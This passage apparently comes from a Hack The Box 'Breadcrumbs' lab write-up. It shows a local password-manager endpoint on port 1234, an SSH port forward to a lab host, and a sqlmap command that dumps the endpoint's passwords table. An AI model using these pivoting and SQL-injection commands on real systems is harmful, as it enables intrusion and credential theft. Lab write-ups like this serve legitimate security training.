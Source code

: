 What seems odd when you see the output is the port 1234! 

```
http://passmanager.htb:1234/index.php
```

Also we have the GET parameters
```
method=select&username=administrator&table=passwords
```
Seems like it's running locally! 

<img alt="test" src="/assets/img/htb-breadcrumbs/local.png">


Let's forward it to our machine with ssh

```
ssh -L 1234:127.0.0.1:1234 development@10.10.10.228
```

<img alt="test" src="/assets/img/htb-breadcrumbs/for.png">

The parameters names gives us a hint that it's SQL injection
let's use sqlmap


```
sqlmap -u "http://127.0.0.1:1234/?method=select&username=administrator&table=passwords" --dump
```
<img alt="test" src="/assets/img/htb-breadcrumbs/us.png">

<img alt="test" src="/assets/img/htb-breadcrumbs/AES.png">
